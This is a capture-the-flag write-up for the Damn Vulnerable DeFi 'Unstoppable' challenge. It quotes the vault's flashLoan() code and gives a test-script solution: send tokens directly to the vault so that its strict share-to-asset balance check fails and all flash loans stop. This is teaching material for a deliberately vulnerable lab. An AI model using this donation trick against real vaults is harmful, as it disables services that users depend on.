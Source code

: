 ## What is our mission
There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To pass the challenge, we will make the vault stop offering flash loans...

<br/>

## What are the smart contracts 
- **`UnstoppableVault.sol`**: smart contract that includes **`flashLoan()`** function 
- **`ReceiverUnstoppable.sol`**: receiver smart contract that includes **`onFlashLoan()`** function 
- **`DamnValuableToken.sol`**: just an ERC20 Token

<br/>


## Solution 

**1.** **`UnstoppableVault.sol`** contract's **`onFlashLoan()`** function

``` solidity
// ReceiverUnstoppable.sol

function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        if (initiator != address(this) || msg.sender != address(pool) || token != address(pool.asset()) || fee != 0)
            revert UnexpectedFlashLoan();

        ERC20(token).approve(address(pool), amount);

        return keccak256("IERC3156FlashBorrower.onFlashLoan");
    }
```

**2.** **`UnstoppableVault.sol`** contract's the **`flashloan()`** function

``` solidity
// UnstoppableVault.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address _token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) 
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement

        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
        
        uint256 fee = flashFee(_token, amount);

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))
            revert CallbackFailed();

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);
        
        return true;
    }
```

**3.** The vulnarability cames from, **`UnstoppableVault.sol`** contract's the **`flashloan()`** function. 

``` solidity
// UnstoppableVault.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address _token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) 
    {
        //...

        /////////////////////////////////////////////////////////
        ///////////THIS IS WHERE THE PROBLEM CAMES FROM//////////
        /////////////////////////////////////////////////////////
        uint256 balanceBefore = totalAssets();        
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();

        //.... 
    }       
```

If **`convertToShares(totalSupply)`** is not equal to **`balanceBefore` **transecton will fail with **`revert InvalidBalance()`**

<br/>

**`totalSupply`** ==> total amount of **asset('DVT')**.

**`totalAssets()`** ==> returns the amount of **shares('DVTo')** inside the contract.

**`convertToShares()`** ==> returns the amount of **shares('DVTo')** that would be exchanged by the vault for the amount of **asset('DVT')** provided.

To stop the pool from offering flash loans, we just have to change one of these variables. After that the **"UnstoppableVault contract"** will be always fail to land falshloans, because the calculation will always fail.

So, we will send some amount of DVT tokens to **`UnstoppableVault.sol`** contract. This will change **`totalSupply`** value, and this will cause **`convertToShares(totalSupply)`** value to change. And **`convertToShares(totalSupply)`** wont be equal to **`balanceBefore`**

``` js
// test/unstoppable/unstoppable.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        let amount = ethers.utils.parseEther('1');
        await token.transfer(vault.address, amount);
    });
```

<br/>


## How could this exploit be prevented ?
**Share your ideas with me :)**


<br/>


## How to test it
got to ➡️ [**Damn Vulnerable Defi - Chalange #1**](https://www.damnvulnerabledefi.xyz/challenges/1.html). Clone the repository as mentioned and put [**solution code**](Solution.txt) to his place.

Then you can just type **`npm run unstoppable`**

